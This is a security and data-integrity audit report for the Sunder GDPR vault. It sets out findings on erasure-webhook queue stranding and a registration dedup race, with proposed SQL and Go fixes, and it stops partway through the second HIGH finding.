

# Sunder - Full Code Review #2
## Security, Correctness, Concurrency & Data Integrity Audit

| | |
|---|---|
| **Date** | 2026-08-27 |
| **Baseline** | `d4a9efa` |
| **Method** | 11 independent dimension audits + adversarial re-verification + completeness critic |
| **Findings** | 116 total - 0 CRITICAL, 15 HIGH, 59 MEDIUM, 40 LOW, 2 INFORMATIONAL |

Eleven independent dimension audits were run over the tree - concurrency core, DB/transaction semantics, GDPR erasure, audit chain, queues and workers, tokens and lookup, crypto and keys, API and auth surface, ops/CLI/config, tests, and docs-versus-code. Every raw finding was then handed to a second agent whose default verdict was REFUTED and which was required to reproduce the claim from the source before upgrading it to CONFIRMED or PLAUSIBLE; anything that survived only as an unverified assertion was dropped. A completeness critic ran last against the surviving set to hunt for whole areas nobody had looked at (GAP-1 below is its output). The prior in-repo `CODE-REVIEW.md` was treated throughout as a set of unverified claims and was never used as evidence; several of its assertions are contradicted by the code at this baseline. `go build ./...` and `go vet ./...` both exit 0 at `d4a9efa`.

| Severity | Count |
|---|---|
| CRITICAL | 0 |
| HIGH | 15 |
| MEDIUM | 59 |
| LOW | 40 |
| INFORMATIONAL | 2 |
| **Total** | **116** |

The zero in the CRITICAL row is a verification result, not the product of a shallow search. Four findings entered adversarial verification carrying a CRITICAL label from their originating audit - GDPR-ERASURE-1, AUDIT-CHAIN-1, DB-TXN-1 and OPS-CLI-CONFIG-1 - and each was downgraded to HIGH with a stated reason: the rekey blob resurrection is race-gated and produces retained-in-DB PII rather than live API disclosure; the forged audit row requires an attacker who already holds direct SQL `INSERT` on `audit`; the dedup race loses no data and discloses no PII beyond what its own caller supplied; and the silent keystore mint contributes a missing detection signal rather than itself destroying data. No finding survived verification as reachable-in-production data loss, auth bypass, PII disclosure or corruption.

Seven of the fifteen HIGH findings share one root cause and are merged into a single entry below (H1), and two more share a second (H2), so fifteen ids are presented as eight findings. Every id is retained and cross-referenced.

---

## 1. Executive Summary

**Overall project health.** Sunder is a coherent, deliberately-built system, not a prototype. The schema carries real invariants (partial unique indexes, append-only triggers on `audit` and `audit_anchor`, a guard trigger on `audit_read_buckets`), the migrations document their own weakenings, the split-signer design genuinely removes key material from the API process, and the lock-ordering convention `cids -> persons` is written down and mostly obeyed. `go build` and `go vet` are clean. The defects found are not architectural naivety; they are the specific places where a correct pattern was implemented once and not carried across to its sibling.

**Security posture.** Authentication is sound in its narrow scope: one bearer credential per `clients` row, constant-time compare with a decoy path on `ErrNoRows`, DB errors returned as 503 rather than as a credential verdict, per-IP auth-failure throttling. Authorisation is action-list based with a scope tenancy filter applied inside the SQL of every cid-addressed read. The weak points are asymmetries rather than holes: `Contacts.Lookup` is the only cid-producing read path with no `persons.erased_at` predicate (GDPR-ERASURE-2), `GET /v1/shares/{uuid}` in authenticated mode enforces no action at all, and `SUNDER_SHARES_PUBLIC` moves that route outside the auth middleware entirely. `mTLS` is a transport gate with no identity binding to the bearer token. The keystore is strict on `Key()` but not on `Ensure()`, which runs on every boot (OPS-CLI-CONFIG-1).

**Concurrency safety.** No data races were found - the in-process shared state is correctly guarded (`metrics.Registry` under one mutex, `ratelimit.Limiter` under `mu`, `KeyRing` under `mu`, `CachingKeystore` under an RWMutex, `Files.uploadSem` via `sync.Once` plus a channel), and `go vet` and the race detector have nothing to say. Every finding here is a *logical* race: check-then-act across a `READ COMMITTED` boundary (DB-TXN-1 / TOKENS-LOOKUP-1), a read-modify-write with an optimistic guard that cannot see the competing writer's representation (GDPR-ERASURE-1), and a stale liveness snapshot used as a per-write invariant (GDPR-ERASURE-2, TOKENS-LOOKUP-5). Cross-replica coordination is real where it exists - `pg_advisory_xact_lock` for sealing, bucket closing, migrations and bootstrap; `FOR UPDATE ... SKIP LOCKED` plus a committed claim for both outboxes - and absent where it does not: rate limiting and enumeration detection without Redis, `KeyRing` invalidation (30s per-replica TTL, so a `Rotate` on replica A is invisible to replica B for up to 30s), `enumWarned`, `Files.uploadSem` (N replicas means N times the intended bound), and metrics.

**Data-integrity confidence.** Moderate, and unevenly distributed. The audit chain's *hashing* is sound - dense `chain_seq` under `audit_chain_seq_uq`, `hash_v` carried per row, sealing permitted by the trigger only as a `NULL -> value` transition with every hashed column pinned. What is not sound is the schema's refusal to enforce that `hash` and `chain_seq` are set together, which turns one plain `INSERT` into permanent, unrepairable destruction of sealing, verification and anchoring (AUDIT-CHAIN-1). Erasure is the weakest surface: three separate paths can leave or restore personal data after `persons.erased_at` is set (GDPR-ERASURE-1, GDPR-ERASURE-2, TOKENS-LOOKUP-5), and one path mints a second, permanently unerasable copy of a person before erasure is ever requested (H2). The Article 19 downstream notification queue silently drops events on every deploy that lands inside a sweep (H1).

**Test quality.** Above average in coverage of happy paths and of the specific bugs previously fixed - the regression tests named in recent commits exist and do test what they claim. The gap is systematic rather than incidental: no test in the suite kills a worker between an external side effect and its outcome-recording commit. `TestPortalReaperAndPendingPruning` exists for `portal_outbox`; the string `SENDING` appears exactly once in the whole test tree, in that test. The erasure queue has no equivalent (TESTS-3), which is precisely why the missing reaper survived four review passes.

**Documentation quality.** Extensive and largely accurate, which makes its errors expensive: `docs-site/docs/gdpr/erasure-webhooks.md` names `FAILED` as the state operators must alert on, when the actually-terminal state is `SENDING` (DOCS-3); `docs/RUNBOOK-BACKUP-DR.md` restore step 3 tells the operator to stop if the keystore mints a key that should have existed, and there is no way to observe that condition under the file driver (OPS-CLI-CONFIG-1); `THREAT-MODEL.md` sells the INSERT-only API role as strictly stronger than the single-role setup, and AUDIT-CHAIN-1 is exactly the attack that posture enables.

**Production readiness.** Fit for a single-replica pilot with a monitored keystore volume. Not yet fit for a multi-replica production deployment carrying real Article 17 obligations: H1 fires on ordinary rolling deploys, GDPR-ERASURE-1 and GDPR-ERASURE-2 fire during the documented key-rotation completion procedure, and none of the three produces an operator-visible signal.

**Overall score: 62/100.**

The engineering is careful and the security model is real, which is why the score is not lower - there is no auth bypass, no injection, no unguarded shared memory, and the cryptography is used correctly. It is not higher because the system's two headline promises are both breakable today without an attacker: Article 17 erasure is defeated by three independent code paths (GDPR-ERASURE-1 resurrects the blob, GDPR-ERASURE-2 resurrects the search tokens and `Lookup` will serve them, TOKENS-LOOKUP-5 writes a fresh live blob into a scope that is never notified), and the tamper-evident audit chain can be permanently destroyed by a single `INSERT` from the exact role the threat model recommends granting (AUDIT-CHAIN-1). H1 - seven independent audits converging on one unreaped queue - and H2 - a dedup invariant that the schema advertises and the application suppresses - are both the kind of defect that produces silent, unrecoverable state rather than an error, which is the worst failure mode for a compliance system.

---

## 2. System Model

### Components

| Component | Process | Holds key material | Notes |
|---|---|---|---|
| `sunder serve` | API server | only when `SUNDER_SIGNER_SOCKET` is unset | `cmd/sunder/main.go:57` -> `api.New` -> `srv.Run` |
| `sunder signer` | signer daemon | yes, exclusively | `main.go:841`. Uses `config.FromEnvNoDB` - no database access at all. Unix socket, 10-min read deadline per frame |
| `sunder sealer` | external sealer | no | `main.go:1174`. Runs `SealOnce` + `CloseReadBuckets`. Refuses to start under `AuditSealing=sync` |
| PostgreSQL | - | no | The only shared state. All cross-replica coordination lives here |
| Redis | - | no | Optional. The only way rate limits and enumeration detection are shared across replicas |
| Blob store | local FS or S3 | no | File ciphertext only. DEKs are wrapped in the DB |
| `cmd/playground` | demo server | own store | Separate listener, separate session store, separate limiter. Not part of the vault auth model |

### Request path



The chain on `/v1/` is `instrument` -> `Auth.Middleware` -> `userIDMiddleware` -> `capturePattern` -> v1 mux -> handler (`internal/api/server.go:205`). `GET /v1/shares/{uuid}` is registered on the **outer** mux when `SUNDER_SHARES_PUBLIC=true` (`server.go:209`); because that pattern is more specific than `/v1/`, it bypasses the auth middleware by design, leaving a per-IP bucket at 120/min as the only guard.

### Background workers

| # | Location | Cadence | Cross-replica guard | Waited on at shutdown |
|---|---|---|---|---|
| 1 | `internal/api/server.go:344` | `DeliverInterval`, default 1m | none at the ticker level | **No** |
| 1a | `server.go:358` | per tick, concurrent with 1b | `FOR UPDATE OF e SKIP LOCKED` + committed `SENDING` claim | No |
| 1b | `server.go:368` | per tick | `FOR UPDATE SKIP LOCKED` + committed `SENDING` claim | No |
| 2 | `server.go:384` | - | - | Yes, `srv.Shutdown` 10s |
| 3 | `server.go:411` | - | - | Yes, `portalSrv.Shutdown` 10s |
| 4 | `server.go:507` | `AuditSealInterval`, default 200ms | `pg_try_advisory_xact_lock(0x53554E44)` | No |
| 5 | `server.go:600` | 30s | none needed, gauge only | No |
| 6 | `server.go:624` | `closerInterval`, default 1m | `pg_try_advisory_xact_lock(0x53554E45)` | No |
| 7 | `cmd/sunder/main.go:1207` | `AuditSealInterval` | same locks as 4 and 6 | separate process |
| 8-9 | `internal/crypto/signer.go:121,141` | - | - | signer process only |

`Server.Run`'s shutdown closure (`server.go:435-445`) waits on the two `http.Server`s and nothing else. Workers 1, 4, 5 and 6 observe `ctx.Done()` and return; the process then exits without draining them. This is load-bearing for H1.

There is **no** in-process retention sweep, no in-process anchoring, and no in-process `Drain` beyond the one-shot at `server.go:479`. `sunder retention run` and `sunder anchor` are cron jobs, and `retention run` executes its eight prune functions sequentially and uncoordinated (`main.go:326-365`).

### Transaction boundaries

Explicit transactions exist for: `store.Migrate` (one tx, all pending migrations, under `pg_advisory_xact_lock(0x53554E4D)`), `registerTx`, `IssueScopedCid`, `OTI.IssueFull`, `OTI.VerifyFull`, `GDPR.erasePerson`, `GDPR.SetConsent`, both outbox claim transactions and their settle transactions, `RunRetention`, `Portal.Start`/`settleMail`/`SetConsent`/`RequestErase`, `Unlock.Issue`/`Consume`, `Links.Link`/`Unlink`, `Shares.Create`/`Revoke`, `ValueTokens.Tokenize`/`Delete`/`TokenizeBulk` (up to 1000 items in one tx, each item's INSERT inside a savepoint so a 23505 retry cannot abort the batch), `Files.Upload`/`Delete`, `Contacts.ExternalClaims`, `KeyRing.Rotate`/`Retire`, `audit.AppendTx` sync path, `audit.sealBatch`, `audit.closeOneHour`, `bootstrapCmd`, `importCmd`.

Multi-statement work with **no** enclosing transaction: `GetAttribute` (blob SELECT, consent SELECT, `ReadEvent`, decrypt - three separate round trips), `Lookup`, `Shares.Fetch`, `ValueTokens.Detokenize`, all file reads, `GDPR.Access`/`Export`, `RunFileGC`, every `Prune*`, and `Contacts.Rekey`/`rekeyPerson`/`rekeyVaults` - the last of which is the subject of GDPR-ERASURE-1 and GDPR-ERASURE-2. `EraseWithCascade` commits **one transaction per person**, so a parent and each cascaded child commit independently.

Two crypto operations sit on the wrong side of a commit boundary by construction: `OTI.IssueFull` signs **before** `Begin` (`oti.go:149`), so a signed token can exist with no committed row - rejected at verify, so benign; and `KeyRing.Rotate` calls `eng.Ensure` **inside** the tx (`keyring.go:172`), so a rollback orphans keystore material.

### External side effects relative to commit

| Effect | Position |
|---|---|
| Erasure webhook POST | Claim tx commits `SENDING` **first**, then HTTP, then a separate tx records the outcome. Nothing resets `SENDING` |
| Portal mail POST | Same shape, but `portal_outbox` has `claimed_at` and a reaper |
| Blob store `Put` | **Before** the DB tx opens. Compensated by a `committed bool` plus a `defer` reap on `context.WithoutCancel(ctx)` with a 30s timeout |
| Blob store `Delete` | Object deleted first, row deleted after. Transient error retried next sweep |
| Signer RPC | Every crypto op is an out-of-process call, so every tx that seals or opens holds its locks across an IPC round trip |
| TSA POST | CLI only, never in the service |

### Security boundaries

Four: (1) the network edge - TLS 1.3 minimum when `TLSCert` is set, `RequireAndVerifyClientCert` when `MTLSCA` is set, with no binding between the client certificate and the bearer identity; (2) the bearer credential, one per `clients` row, carrying `Scope` as the tenancy filter and `AllowedActions`/`AllowedPurposes`/`AllowedAttributes` as the authorisation vector - note `len(AllowedAttributes)==0` means unrestricted; (3) the signer socket, which is the only place key material lives in split mode; (4) the database role split, where the API role is expected to hold `INSERT` but not `UPDATE` on `audit`.

### The multi-replica picture

Coordination that **works** across replicas: sealing and chain append (`pg_advisory_xact_lock(0x53554E44)`), the read-bucket closer (`0x53554E45`), migrations (`0x53554E4D`), bootstrap (`0x53554E4442`), and both outbox drains, which combine `FOR UPDATE ... SKIP LOCKED` with a claim committed before the side effect so two replicas cannot double-send.

Coordination that **does not exist**, and where correctness silently assumes one instance:

- **Rate limiting and enumeration detection without Redis.** `ratelimit.Limiter` and `ratelimit.Detector` are in-process maps under `mu`. With N replicas and no `SUNDER_REDIS_ADDR`, every configured limit is effectively N times looser, including `authfail:`, `share-public:` and the portal buckets.
- **`KeyRing` invalidation.** A 30s TTL cache of the `keys` table under a per-replica mutex; `Invalidate()` and `InvalidateThrottled()` are local only. A `keys rotate` or `keys retire` on replica A leaves replica B serving the old active version for up to 30s.
- **`Files.uploadSem`.** `MaxConcurrentUploads` (default 4) bounds peak upload memory per replica, so the actual bound is N times the configured one.
- **`Server.enumWarned`.** A never-evicted `sync.Map` used to suppress duplicate enumeration warnings, per replica.
- **`CachingKeystore`.** Never invalidated, unbounded, justified on the grounds that key material is immutable per name - which holds, but means a replica that cached a version before a `retire` keeps serving it.
- **Metrics.** Per-replica registries whose series names embed client ids, so cardinality is unbounded and per-replica.

What breaks concretely when you run 2+ instances: the erasure strand (H1) becomes routine rather than occasional, because a rolling deploy interrupts an in-flight sweep on each replica in turn; the registration dedup race (H2) becomes reachable from two independent request paths rather than only from a double-submit; and any rate limit not backed by Redis multiplies. `SUNDER_REDIS_FAIL_CLOSED` defaults to fail-**open**, overridden to fail-closed only for keys prefixed `portal:` and `claims:` - `share-public:`, `authfail:`, `audit-verify:`, `audit-chain:` and the bare client-id buckets are not in that list.

---

## 3. Critical & High Findings

### H1 - Erasure webhook events are stranded in `SENDING` permanently: the claim is committed before the POST, every settle statement reuses the context that just died, and no reaper or lease column exists for `erasure_events`
*(merges CONCURRENCY-CORE-1, DB-TXN-2, GDPR-ERASURE-3, QUEUE-WORKER-1, OPS-CLI-CONFIG-2, TESTS-3, DOCS-3 - seven independent audits converged on this root cause)*

**Severity:** HIGH | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** RELIABILITY / DATA_INTEGRITY

**Location:**
- `internal/service/gdpr.go:627-747` - `GDPR.DeliverPending`: claim SELECT `:635-639`, claim `UPDATE ... SET status='SENDING'` `:667`, claim commit `:671`, `terminal()` `:674-692`, POST `:711`, transient reset `:722-726`, FAILED path `:730-737`
- `internal/service/gdpr.go:590` - `_, _ = g.DeliverPending(ctx)` inline on the request goroutine inside `erasePerson`
- `internal/api/gdpr.go:65` - `handleDSRErase` passes `r.Context()` into `EraseWithCascade`
- `internal/api/server.go:339-381` - delivery ticker goroutine, no `WaitGroup`; `internal/api/server.go:435-452` - shutdown does not wait on it
- `cmd/sunder/main.go:65` - `signalContext()` is the cancellation root; `cmd/sunder/main.go:325-365` - `retention run` never touches `erasure_events`; `cmd/sunder/main.go:384-390,392-408` - `dsr` offers only `deliver` and `events`, no requeue
- `internal/store/migrations/0005_gdpr.sql:33-42` - `erasure_events` has no `claimed_at` and only `erasure_events_pending_idx (status) WHERE status='PENDING'`
- Contrast, the reaper that does exist: `internal/service/portal.go:667-669` and its test `internal/service/portal_test.go:535-580`
- Docs: `docs-site/docs/gdpr/erasure-webhooks.md:7,57,91`, `docs/API.md:231-234`

**Problem.** `DeliverPending` claims up to 100 rows with `SELECT e.id, ... FROM erasure_events e LEFT JOIN webhooks w ... WHERE e.status='PENDING' ORDER BY e.attempts, e.id LIMIT 100 FOR UPDATE OF e SKIP LOCKED` (gdpr.go:635-639), then commits `UPDATE erasure_events SET status='SENDING' WHERE id = ANY($1)` (gdpr.go:667, commit at :671) **before any HTTP is attempted**. Committing the claim before the side effect is the correct choice for a multi-replica deployment - it is what prevents double-send. What is missing is the other half of the pattern: `SENDING` is a state with no lease and no owner.

Every statement that could move a row out of `SENDING` runs on the **same `ctx`** that performs the POST, and every one of them swallows its error:
- `terminal()` opens `g.Pool.Begin(ctx)` (gdpr.go:675) and returns silently on a failed `Begin`, `Exec`, `audit.AppendTx` or `Commit` (gdpr.go:676-692). Under `AuditSealing=sync` that `AppendTx` additionally takes `pg_advisory_xact_lock(0x53554E44)` and can block or fail.
- The non-2xx / transport-error path runs `g.Pool.QueryRow(ctx, "UPDATE erasure_events SET attempts=attempts+1, status='PENDING' ... RETURNING attempts")` and `continue`s on error with no log (gdpr.go:722-726).
- The FAILED path (gdpr.go:730-737) uses `ctx` as well.

There is no recovery anywhere in the tree. `grep -rn "SENDING" --include=*.go --include=*.sql` returns exactly six non-test hits: `portal.go:267` (portal claim), `portal.go:662/669` (portal prune and portal reaper), and `gdpr.go:667/681/723/735`. The only statement that returns a row *from* `SENDING` *to* `PENDING` is `UPDATE portal_outbox SET status='PENDING' WHERE status='SENDING' AND created_at < now() - interval '10 minutes'` (portal.go:668-669) - the **other** queue. `grep -rn claimed_at` matches exactly one line in the whole tree, `0018_erasure_cleanup.sql:10`, and that column is on `portal_outbox`, not `erasure_events`. `retention run` (main.go:325-365) calls `RunRetention`, `PruneEnvelopes`, `PrunePortal`, `PruneUnlockTokens`, `PruneValueTokens`, `PruneBlobVersions`, `PruneShares`, `RunFileGC` - none of which reference `erasure_events`. `sunder dsr events` (main.go:392-408) can display a stranded row but there is no command to requeue it.

Because the claim SELECT filters `WHERE e.status='PENDING'`, `SENDING` is an **absorbing state**: a stranded row is invisible to every future sweep on every replica, forever.

Migration `0017_worker_claims.sql` makes the asymmetry explicit. Its comment states "A crash mid-send leaves rows in SENDING; the reaper below returns them to PENDING after a grace period" - and then records that `erasure_events` needs no schema change because its `status` column has no CHECK constraint at all. The reaper was written for `portal_outbox` only. Migration `0018` added `claimed_at` to `portal_outbox` only.

The test suite records the same asymmetry: the string `SENDING` appears exactly once in test code, at `internal/service/portal_test.go:548`, inside `TestPortalReaperAndPendingPruning`. No test anywhere kills a worker between an external side effect and its outcome-recording commit (TESTS-3).

The documentation records the opposite of the implementation: `docs-site/docs/gdpr/erasure-webhooks.md:7` says events are "delivered by a worker that retries until a scope's endpoint acknowledges - or gives up and marks the event FAILED", and `:91` tells operators "a scope must alert on FAILED rows, not assume eventual success", naming `FAILED` as the only stuck state. The actually-terminal state is `SENDING`, which no document mentions as reachable-and-final (DOCS-3).

**Why it matters.** The erasure webhook is the mechanism by which downstream scopes learn to delete their copy of a person - `gdpr.go:3-6` states that the provider is the only component that knows which scopes hold a person. A stranded event means one partner system is never told to erase, permanently and silently.

**Failure / attack scenario.**

*Path A - graceful shutdown, no crash required. This is the one that fires on every deploy.*
1. A replica is serving. The ticker at `server.go:345` fires and the goroutine at `:358` calls `s.GDPR.DeliverPending(ctx)` with `ctx = signalContext()` from `main.go:65`.
2. The claim transaction selects 100 `PENDING` rows, sets them to `SENDING`, and COMMITS (gdpr.go:667-671). They are now globally visible as `SENDING` on every replica.
3. The loop reaches event #1 and blocks in `g.client().Do(req)` (gdpr.go:711) against a slow scope endpoint. Default `SUNDER_WEBHOOK_TIMEOUT` is 5s.
4. The orchestrator sends SIGTERM. `signal.NotifyContext` cancels `ctx`.
5. `Do(req)` returns immediately with `context canceled`, so `ok == false`.
6. The compensating `UPDATE ... status='PENDING'` at gdpr.go:722-726 executes under the cancelled `ctx`, fails, and the code `continue`s - no log, no error, no audit row.
7. Every remaining event in `evs` repeats steps 5-6 instantly, since both `http.NewRequestWithContext` and `Do` fail immediately on a dead context. `terminal()` at `:675` also fails at `Begin(ctx)` and returns silently.
8. `Server.Run`'s `select` takes `<-ctx.Done()` and calls `shutdown()`, which waits only on the two `http.Server`s (`server.go:435-445`). The process exits without draining the worker.
9. All ~100 rows remain `status='SENDING'`. On restart, `DeliverPending` selects only `status='PENDING'` and never sees them again.

*Path B - client disconnect, no restart required, and it strands other subjects' events.*
1. Scope `legacy` has a webhook endpoint that black-holes connections; ~80 events for earlier erasures sit `PENDING` against it.
2. A privacy officer POSTs `/v1/dsr/erase` for an unrelated person Q. `erasePerson(Q)` commits Q's erasure and queues Q's own `erasure_events` rows.
3. Still on the request goroutine, gdpr.go:590 calls `DeliverPending(r.Context())`.
4. The claim transaction takes the 80 legacy events **plus** Q's events - the batch is queue-wide, not scoped to this erasure - sets all to `SENDING` and COMMITS.
5. The worker POSTs event #1 to the black hole; the 5s timeout elapses; then #2, #3, and so on. Up to ~500s of work.
6. At ~30s the officer's HTTP client, load balancer or browser gives up and closes the connection. Go cancels `r.Context()`.
7. For event #k, `Do(req)` returns `context canceled`, `ok=false`, and the reset `UPDATE` at gdpr.go:722 fails with the same error and `continue`s. `terminal()` cannot even `Begin`.
8. The loop drains. Roughly 70 events, **including some belonging to persons other than Q**, are left at `SENDING` permanently.

*Path C - silent settle failure with the POST already successful.*
1. A batch is claimed and committed as `SENDING`.
2. The POST to the scope endpoint returns 200. The downstream system has deleted the record.
3. `terminal()` opens its transaction and hits a transient failure - a `Begin` error during a connection blip, or an `audit.AppendTx` that fails while contending for the chain advisory lock under `AuditSealing=sync`.
4. `terminal()` returns silently at gdpr.go:676-692. The row stays `SENDING` even though delivery succeeded, and no `dsr.erase.delivered` audit row is ever written.

**Impact.** GDPR Article 17 execution inside Sunder is recorded as complete while the Article 19 notification to recipients is silently and permanently lost. The downstream system that actually holds the person's records is never told to delete them. The failure produces **no** signal of any kind: the inline call site is `_, _ =`, no error is returned, no log line is emitted, no metric moves, no `dsr.erase.delivered` / `.failed` / `.no_webhook` audit row is written, and the queue's partial index (`WHERE status='PENDING'`) hides the rows from casual inspection. The erasure record in the chain still asserts the erasure happened. Recovery requires a DBA to run a manual `UPDATE erasure_events SET status='PENDING'` after first knowing to look, and the only documented alerting target is `FAILED`, a state these rows never reach. Blast radius is up to 100 events per sweep per replica, and because the inline drain at gdpr.go:590 takes a global batch, one subject's erase request can strand other subjects' notifications.

**Root cause.** An at-least-once outbox whose claim is committed before the side effect - correct - but whose acknowledgement shares fate with that side effect: the claim's release depends on the very context that just failed. Compounded by three omissions. (a) `erasure_events` was modelled without the lease column and reaper that were retrofitted onto `portal_outbox` in migrations 0017/0018; the sibling queue got the fix and this one was explicitly recorded as needing no change. (b) The drain runs synchronously on a cancellable request goroutine, converting an ordinary client timeout into permanent queue corruption. (c) Every settle path discards its error, so even the non-cancellation variants are silent.

**Fix.** Four parts.

1. Give the ack path a context that outlives cancellation, using the pattern `Files.UploadWithExpiry` already applies to its ciphertext reap (`files.go:248-258`). Once, at the top of `DeliverPending`:
```go
settleCtx, cancelSettle := context.WithTimeout(context.WithoutCancel(ctx), 10*time.Second)
defer cancelSettle()
```
Use `settleCtx` for `terminal()` (gdpr.go:675), for the transient `UPDATE` (gdpr.go:722) and for the FAILED path (gdpr.go:730). Check `ctx.Err()` at the top of each loop iteration and release the remaining claims rather than burning through them.

2. Add the lease and the reaper:
```sql
ALTER TABLE erasure_events ADD COLUMN claimed_at TIMESTAMPTZ;
CREATE INDEX erasure_events_sending_idx ON erasure_events (claimed_at) WHERE status='SENDING';
ALTER TABLE erasure_events ADD CONSTRAINT erasure_events_status_check
  CHECK (status IN ('PENDING','SENDING','DELIVERED','FAILED','NO_WEBHOOK'));
```
Set it in the claim: `UPDATE erasure_events SET status='SENDING', claimed_at=now() WHERE id = ANY($1)`. Then reap on **claim age**, not row age:
```sql
UPDATE erasure_events SET status='PENDING', claimed_at=NULL
 WHERE status='SENDING'
   AND (claimed_at IS NULL OR claimed_at < now() - interval '10 minutes');
```
Run it both from `retentionCmd` (main.go:325+) for operator-driven recovery **and** at the top of `DeliverPending` itself, so recovery does not depend on an operator having wired up a cron. The `claimed_at IS NULL` disjunct backfills rows stranded before the migration. Fix `PrunePortal`'s reaper at the same time to key off `claimed_at` rather than `created_at`.

3. Stop draining on the request goroutine. At gdpr.go:590, either drop the inline call entirely - the ticker fires within `SUNDER_DELIVER_INTERVAL`, default 60s - or dispatch it detached and bounded to this erasure's own events rather than a global batch of 100:
```go
go func() {
    dctx, cancel := context.WithTimeout(context.WithoutCancel(ctx), 30*time.Second)
    defer cancel()
    _, _ = g.deliverForErasure(dctx, erasureID)
}()
```

4. Stop swallowing errors: `terminal()` must return an error, the caller must log it, and the `continue` at gdpr.go:726 must log. Hold the delivery goroutine in a `sync.WaitGroup` in `Server.Run` and `Wait()` inside `shutdown()` so a graceful stop drains rather than abandons. Export a `sunder_erasure_events_sending` gauge and add an alert rule to `ops/prometheus-alerts.yaml` on its age.

Independently, correct `docs-site/docs/gdpr/erasure-webhooks.md:7,91` and `docs/API.md:231-234` to state that operators must alert on the age of `SENDING` rows, not only on `FAILED`.

**Test required.**
1. `TestDeliverPendingReleasesClaimsOnCancellation` - integration, real Postgres. Enqueue 3 `erasure_events` pointing at an `httptest` server whose handler blocks on a channel. Call `DeliverPending` in a goroutine with a cancellable ctx; wait until the handler is entered, which proves the claim committed; cancel the ctx; unblock the handler. Assert `SELECT status, count(*) FROM erasure_events GROUP BY status` shows **zero** rows in `SENDING`, and that a second `DeliverPending` with a fresh ctx delivers all 3.
2. `TestErasureEventReaperReturnsStrandedClaims` - the missing counterpart to `TestPortalReaperAndPendingPruning` (portal_test.go:535-580). Set a row to `SENDING` with `claimed_at = now() - interval '30 minutes'`, run the reaper, assert it is back to `PENDING` and that a following `DeliverPending` delivers it and writes `dsr.erase.delivered` to the audit chain. Assert a freshly-claimed row is **not** requeued.
3. `TestErasePersonDoesNotDrainOnRequestContext` - assert `erasePerson` returns before a blocked webhook endpoint responds.
4. `TestTerminalFailureIsLogged` - inject a failing pool and assert an error is logged rather than swallowed.

---

### H2 - Concurrent registration of the same email or phone mints TWO persons: `ON CONFLICT DO NOTHING` swallows the dedup unique violation, the documented 23505 retry is unreachable, and the loser's PII blob is unerasable
*(merges DB-TXN-1 and TOKENS-LOOKUP-1)*

**Severity:** HIGH | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY / CONCURRENCY

**Location:** `internal/service/contacts.go:277-345` - `Contacts.registerTx`; dedup probe `:295-297`; token INSERT `:319-324`; `ensureCID` `:328` and `:378-381`; `mergeIntoBlob` `:333`. Retry loop `internal/service/contacts.go:237-248` with the dead predicate at `:243` and the comment describing dead code at `:234-236`. Index `internal/store/migrations/0003_person_tokens.sql:14-15`. Correct contrasting shape at `cmd/sunder/import.go:426-431` with its retry at `import.go:325-333`.

**Problem.** `registerTx` implements dedup as a check-then-act under `READ COMMITTED`. It probes with `SELECT person_id FROM person_tokens WHERE kind=$1 AND token = ANY($2) ORDER BY created_at, person_id LIMIT 1` (contacts.go:295-297) - no `FOR UPDATE`, no advisory lock - and on `ErrNoRows` mints a fresh v4 UUID, INSERTs a `persons` row, and writes the identifier tokens with:

```sql
INSERT INTO person_tokens (person_id, kind, token, key_version)
VALUES ($1,$2,$3,$4) ON CONFLICT DO NOTHING
```

(contacts.go:319-324, the same statement for every kind including `email` and `phone`).

The dedup invariant is meant to be enforced by the partial unique index `person_tokens_ident_uq (kind, token) WHERE kind IN ('email','phone')` (0003_person_tokens.sql:14-15), which migration 0003's own comment describes as "an email or phone identifies exactly one person". But `ON CONFLICT DO NOTHING` **with no conflict target** arbitrates on every usable unique index on the table, partial ones included. A violation of `person_tokens_ident_uq` is therefore absorbed as `INSERT 0 0` and never raised as SQLSTATE 23505.

`Register`'s retry at contacts.go:237-248 fires only on `pgErr.Code == "23505"`. I checked every other statement in the transaction for a 23505 source that could feed it: the `persons` INSERT uses a fresh UUID and cannot conflict; `ensureCID` also masks its own conflict (`ON CONFLICT (person_id, scope) DO UPDATE ... RETURNING cid`, contacts.go:378-381) and its target cannot fire for a brand-new person id; `mergeIntoBlob` only UPDATEs; `audit.AppendTx` inserts a fresh chain row. **No 23505 can escape `registerTx` on this path**, so the retry is dead code and the comment at contacts.go:234-236 - "a concurrent identical registration can win the unique-index race; the second attempt then finds and reuses that person" - describes behaviour that cannot occur.

There is no serializer that would prevent the interleaving. There is no advisory lock on registration; the only `pg_advisory_xact_lock` reachable from a register transaction is audit's chain lock at `audit.go:175`, taken **after** the token insert, so it does not order the probe/insert pair. Isolation is the pool default, `READ COMMITTED`.

The loser therefore commits a second `persons` row, a second `cids` row and a full PII blob, owning **no** email or phone token at all.

